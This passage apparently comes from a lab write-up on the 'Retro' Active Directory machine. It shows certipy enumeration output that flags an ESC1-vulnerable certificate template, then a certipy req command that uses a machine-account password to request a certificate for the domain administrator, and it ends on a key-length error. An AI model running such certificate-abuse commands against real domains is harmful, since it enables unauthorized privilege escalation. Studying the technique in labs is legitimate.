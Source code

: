 ```text
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Template Created                    : 2023-07-23T21:17:47+00:00
    Template Last Modified              : 2023-07-23T21:18:39+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : RETRO.VL\Domain Admins
                                          RETRO.VL\Domain Computers
                                          RETRO.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : RETRO.VL\Administrator
        Full Control Principals         : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Write Owner Principals          : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Write Dacl Principals           : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Write Property Enroll           : RETRO.VL\Domain Admins
                                          RETRO.VL\Domain Computers
                                          RETRO.VL\Enterprise Admins
    [+] User Enrollable Principals      : RETRO.VL\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.

```

We can see that the **Domain Computers** can do **ESC1** on the domain.

Using Ceritpy to exploit ESC1.

```bash
certipy req -u 'BANKING$@retro.vl' -p 'aashwin10!' -ca 'retro-DC-CA' -template 'RetroClients' -upn administrator@retro.vl
```

![image.png](/assets/images/Retro_VL/image%2021.png)

It says that the public key does not meet the minimum size required by the specified certificate template.

The default size of the RSA key length is 2048.

![image.png](/assets/images/Retro_VL/image%2022.png)
